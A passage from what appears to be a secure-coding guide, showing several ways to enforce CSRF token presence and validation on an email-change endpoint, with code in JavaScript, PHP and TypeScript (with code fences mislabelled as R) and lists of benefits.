const csrfProtection = csrf({ cookie: true });

// Middleware automatically:
// 1. Requires token to be present
// 2. Validates token value
// 3. Rejects if either fails

app.post('/change-email', csrfProtection, (req, res) => {
    // Only executed if CSRF passed
    updateEmail(req.body.email);
    res.redirect('/account');
});

Benefits:
✅ Framework handles requirements
✅ Token presence enforced
✅ Token validation enforced
✅ No developer error possible
```

---

### **Fix 4: Explicit Two-Step Validation**

```r
// ✅ SECURE - Explicit checks

function validateCSRFToken() {
    // Step 1: Check existence
    if (!isset($_POST['csrf'])) {
        throw new Exception('CSRF token missing');
    }
    
    $token = $_POST['csrf'];
    
    // Step 2: Check not empty
    if (empty($token)) {
        throw new Exception('CSRF token empty');
    }
    
    // Step 3: Validate value
    if ($token !== $_SESSION['csrf_token']) {
        throw new Exception('CSRF token invalid');
    }
    
    return true;
}

// Use in handler
try {
    validateCSRFToken();  // Throws on any failure
    updateEmail($_POST['email']);
} catch (Exception $e) {
    http_response_code(403);
    die($e->getMessage());
}

Benefits:
✅ Clear separation of checks
✅ Explicit error messages
✅ All failures result in rejection
✅ Easy to test each condition
```

---

### **Fix 5: Guard Clauses Pattern**

```r
// ✅ SECURE - Guard clauses

function handleEmailChange(req, res) {
    // Guard 1: Token must exist
    if (!req.body.csrf) {
        return res.status(403).send('CSRF token required');
    }
    
    // Guard 2: Token must not be empty
    if (req.body.csrf.trim() === '') {
        return res.status(403).send('CSRF token cannot be empty');
    }
    
    // Guard 3: Token must be valid
    if (!validateToken(req.body.csrf, req.session.csrfToken)) {
        return res.status(403).send('Invalid CSRF token');
    }
    
    // All guards passed, process request
    updateEmail(req.body.email);
    res.redirect('/account');
}

Benefits:
✅ Early returns on failure
✅ Clear failure conditions
✅ Easy to read and maintain
✅ Impossible to skip checks
```

---

### **Fix 6: Schema Validation**

```r
// ✅ SECURE - Use validation library

const Joi = require('joi');

const emailChangeSchema = Joi.object({
    email: Joi.string().email().required(),
    csrf: Joi.string().required().min(20)  // REQUIRED!
});

app.post('/change-email', (req, res) => {
    // Validate entire request body
    const { error, value } = emailChangeSchema.validate(req.body);
    
    if (error) {
        // Missing or invalid csrf will fail here
        return res.status(400).send(error.details[0].message);
    }
    
    // Schema passed, now validate token value
    if (!validateCSRFToken(value.csrf, req.session.csrf)) {
        return res.status(403).send('Invalid CSRF token');
    }
    
    updateEmail(value.email);
    res.redirect('/account');
});

Benefits:
✅ Centralized validation
✅ Type and presence checking
✅ Clear schema definition
✅ Automatic error messages
```

---

### **Fix 7: Double Submit Cookie Pattern (Correct)**

```r
// ✅ SECURE - Properly implemented double submit

// Set CSRF token in cookie
app.use((req, res, next) => {
    if (!req.cookies.csrfToken) {
        const token = generateSecureToken();
        res.cookie('csrfToken', token, {
            httpOnly: false,  // Accessible to JS
            secure: true,
            sameSite: 'Strict'
        });
        req.session.csrfToken = token;
    }
    next();
});

// Validate CSRF
app.post('/change-email', (req, res) => {
    const cookieToken = req.cookies.csrfToken;
    const bodyToken = req.body.csrf;
    
    // BOTH must exist
    if (!cookieToken || !bodyToken) {
        return res.status(403).send('CSRF token required');
    }
    
    // BOTH must match
    if (cookieToken !== bodyToken) {
        return res.status(403).send('CSRF token mismatch');
    }
    
    updateEmail(req.body.email);
    res.redirect('/account');
});

Why this works:
├── Token in cookie (attacker can't read cross-origin)
├── Token in request (must be provided)
└── Both must match (attacker can't forge)
```

---

### **Fix 8: TypeScript Type Safety**

```r
// ✅ SECURE - Type system enforces presence

interface EmailChangeRequest {
    email: string;
    csrf: string;  // NOT optional! Required by type!
}

function handleEmailChange(req: Request, res: Response) {
    // TypeScript requires these properties to exist
    const body = req.body as EmailChangeRequest;
    
    // Runtime check still needed for security
    if (!body.csrf || !body.email) {
        return res.status(400).send('Missing required fields');
    }
    
    // Validate CSRF token
    if (!validateCSRFToken(body.csrf, req.session.csrfToken)) {
        return res.status(403).send('Invalid CSRF token');
    }
    
    updateEmail(body.email);
    res.redirect('/account');
}

Benefits:
✅ Type system catches missing properties
✅ Compile-time checking
✅ Runtime validation still required
✅ Extra safety layer
```

---
